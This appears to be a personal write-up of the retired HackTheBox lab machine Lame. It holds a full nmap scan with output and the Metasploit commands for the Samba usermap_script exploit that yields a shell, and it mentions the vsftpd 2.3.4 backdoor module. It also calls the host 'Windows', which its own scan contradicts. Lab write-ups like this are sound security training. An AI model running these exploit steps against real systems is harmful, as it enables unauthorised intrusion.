



Type: #linux 
Level: #easy
Link: <https://app.hackthebox.eu/machines/Lame>
Tags : #TCM
Tools: [[NMAP]] [[SMBCLIENT]] [[METASPLOIT]]	

## Pentesting of retired HTB VM Lame
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.3

First let's do a classic nmap scan  
`sudo nmap -A -T4 -p- 10.10.10.3`

NMAP Result :
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-07 12:46 EDT
Nmap scan report for 10.10.10.3
Host is up (0.042s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m46s, deviation: 2h49m43s, median: 1m45s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-04-07T12:51:22-04:00
| smb-security-mode:                                                                                                                                                                                                                
|   account_used: guest                                                                                                                                                                                                             
|   authentication_level: user                                                                                                                                                                                                      
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   46.51 ms 10.10.14.1
2   45.81 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 250.61 seconds
```

**Open ports**
```
Not shown: 996 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
3632/tcp open  distccd
```

**Information disclosure from NMAP**

`OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)`
`Samba smbd 3.0.20-Debian`
`vsFTPd 2.3.4`

**Analysing**

root ssh possible : 




Via metaspoilt we can see an exploit for this FTP version : 

**msf6 exploit(unix/ftp/vsftpd_234_backdoor**



smbclient show an open directory :


some googling show use this exploit usable with metasploit :

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

In msfconsole :

`use exploit/multi/samba/usermap_script`
`set rhosts 10.10.10.3`
`set lhost 10.10.14.19`

Shell poped

Flag obtained and submitted

#pwned 